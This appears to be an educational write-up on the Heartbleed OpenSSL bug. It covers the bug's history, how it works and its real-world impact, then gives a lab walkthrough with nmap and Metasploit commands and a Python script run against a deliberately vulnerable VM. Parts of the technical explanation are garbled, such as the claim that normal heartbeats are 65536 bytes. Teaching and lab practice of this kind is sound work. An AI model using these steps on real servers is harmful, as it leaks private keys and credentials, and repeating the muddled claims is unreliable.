 # Heartbleed Exploit on OpenSSL  (CVE 2014-0160)

## What is Heartbleed Exploit
### Why is this exploit called Heartbleed?

* It is named after the extension protocol which SSL/TLS protocols used called Heartbeat Extension

* While TLS handshaking it sends packet called heartbeat packet to another system to keep TLS connection up every time so that it save time that initialization of TLS take. It sends it multiple time nonstop.

### Why It Happens?

* There is programming mistake in OpenSSL Library called libssl which handles the execution of SSL/TSL protocol

### How Big it is?

* OpenSSL is mostly used by opensource webservers like Apache and nginx. So combined market share of just these on inter is 66% as per [Netcraft's April 2014 Web Server Survey](https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html)[1]

### Who found it?

* It was found by group of security engineers while working on SafeGuard feature in Codenomicon's Defensics [security testing tools](https://www.synopsys.com/software-integrity/security-testing.html) [2]

* They reported this bug to NCSC-FI(National Cyber Security Center Finland) to take further action and tell OpenSSL

* 3rd of April 2014, [NCSC-FI](https://www.kyberturvallisuuskeskus.fi/en) [3] took up the task of verifying it, analyzing it further and reaching out to the authors of OpenSSL, software, operating system and appliance vendors, which were potentially affected.

### What versions are affected?

* Bug was introduced to OpenSSL in December 2011 and has been out in the wild since

* OpenSSL release 1.0.1 on 14th of March 2012.

### Is it is Solved Now?

* OpenSSL 1.0.1g released on 7th of April 2014 fixes the bug

## How Heartbleed Exploit  Works

* Normally the system sends the heatbeat extension packet of 65536 bytes with some payload to another system to keep TLS connection active . In return another system send back same payload with some padding. This packet goes to and fro multiple time just to keep TSL active to save time taken by TLS to initialise so that fast communication can be done.
![alt text](https://raw.githubusercontent.com/95keshav/openssl/main/heartbleed.png)
* But there is flow in the code of OpenSSL it does not check the lenght of packet.
![alt text](https://raw.githubusercontent.com/95keshav/openssl/main/heartbleed_hacked.png)
* Hackers use this flow to exploit the packet, They send packet with just 1 byte of data and keep other bytes empty, System do not confirm the lenght and save it in memory. When System sends back response it does not know that packet size was only of 1 byte. and it copy 65536 bytes from memory and sent back to hacker
* That data from memroy may contain SSL private keys, User credentials, System Memory address.
[To Get more information on Heartbleed click here](https://www.youtube.com/watch?v=WgrBrPW_Zn4)

## What Data is being leaked?
* Data being leaked comes under 4 categories

	1. Primary Key material

		* Encryption keys

	2. Secondary Key  material

		* Username and  Password

	3. Protected content

		* Financial Data

		* Private Communication e.g. email

		* Documents worth protected

	4. Collateral

		* Leaked  Memory  Content

		* Memory Addresses

		* Security measures  used  e.g. canaries used for overflow



## Affects of Heartbleed Exploit
1. [Millions of Vulnerable Systems Unpatched for Severe Bugs Including BlueKeep and Heartbleed Despite NSA Warnings](https://www.cpomagazine.com/cyber-security/millions-of-vulnerable-systems-unpatched-for-severe-bugs-including-bluekeep-and-heartbleed-despite-nsa-warnings/)
2. [Heartbleed bug crisis hit more government computers than previously disclosed](https://www.cbc.ca/news/politics/heartbleed-bug-cyberattack-canada-government-departments-1.3355993)
3. [900 SINs stolen due to Heartbleed bug: Canada Revenue Agency](https://globalnews.ca/news/1269168/900-sin-numbers-stolen-due-to-heartbleed-bug-canada-revenue-agency/)
4. [Devastating Heartbleed Flaw Was Used in Hospital Hack](https://time.com/3148773/report-devastating-heartbleed-flaw-was-used-in-hospital-hack/)
5. [Heartbleed](https://heartbleed.com/)



### OpenSSL Heartbleed Exploit



#### Tools needed

1. A bee-box virtual machine with OpenSSL in version 1.0.1~1.0.2  provided by bWAPP     

   [Download URL](https://sourceforge.net/projects/bwapp/files/bee-box/)

   **bWAPP and bee-box**: bWAPP is short for buggy web application, it allows us to implement penetration testing and ethical hacking projects. Over 100 web bugs are covered which include all major web vulnerabilities. The bee-box is the vulnerable virtual machine provided by bWAPP that can be used for CVE exploits.

2. A Kali-Linux virtual machine（Nmap；Metasploit；Python script）

   [Download URL](https://www.kali.org/downloads/)
   
   **Kali-Linux**: Kali-Linux is a kind of Debian Linux which is widely used in ethical hacking. It has hundreds of pre-installed ethical hacking tools. In this presentation, we will use it to hack the vulnerable bee-box.
   
   **Nmap**: Nmap is short for Network Mapper, it is an open-source network scanner started by Gordon Lyon. Nmap is a tool for probing computer networks and it is able to detect vulnerabilities.
   
   **Metasploit**: Metasploit is a well-known tool deals with computer security, it provides numerous methodologies for vulnerability exploitation. In this presentation, we will use it to execute the exploit of heartbleed vulnerability.
   
   

#### Method 1：

1. Open the 2 virtual machines.

2. Use ifconfig command to check the IP address of the bee-box.

3. Use Nmap tool in Kali-Linux to check the heartbleed vulnerability in the bee-box.

~~~
nmap -sV -p 8443 --script ssl-heartbleed.nse 192.168.2.130
~~~

4. Enter the Metasploit tool in Kali-Linux.

~~~
msfconsole
~~~

5. Search the auxiliary of heartbleed cve in Metasploit.

~~~
search cve-2014-0160
~~~

6. Pick the OpenSSL heartbleed auxiliary and use it.

~~~
use auxiliary/scanner/ssl/openssl_heartbleed
~~~

7. Set target host and port, and set verbose true to make the process seen, then exploit.

~~~
set RHOST 192.168.2.130
~~~

~~~
set RPORT 8443
~~~

~~~
set verbose true
~~~

~~~
exploit
~~~



#### Method 2:

1. Open the 2 virtual machines.

2. Use ifconfig command to check the IP address of the bee-box.

3. Use vim command to create a script  [heartbleed.py](https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py) in Kali-Linux  in Kali-Linux.

4. Ran the script.

   ~~~
   python heartbleed.py 192.168.2.130 -p 8443
   ~~~

   

### References:
[1] Netcraft's April 2014 Web Server Survey, https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html.

[2] Application Security and Quality Analysis Tools, https://www.synopsys.com/software-integrity/security-testing.html.

[3] NCSC-FI, https://www.kyberturvallisuuskeskus.fi/en,https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html.

[4] Heartbleed bug News, https://heartbleed.com/.

[5] Heartbleed bug News, https://heartbleed.com/.

[6] Heartbleed bug News, https://heartbleed.com/.![image](https://user-images.githubusercontent.com/52240576/111923122-ed2db580-8a73-11eb-8305-ed1cb52efffe.png)

[7] Hacking Tools, https://www.concise-courses.com/hacking-tools/

[8] Exploitation Turtorial, https://www.youtube.com/watch?v=SgJm0C6jzbo&t=47s

[9] Heartbleed script, https://github.com/ctfs/write-ups-2014/blob/master/plaid-ctf-2014/heartbleed/heartbleed.py

[10] bWAPP, https://sourceforge.net/projects/bwapp/files/bee-box/

[11] Kali-Linux, https://www.kali.org

[12] Metasploit, https://en.wikipedia.org/wiki/Metasploit_Project

[13] Nmap, https://en.wikipedia.org/wiki/Nmap

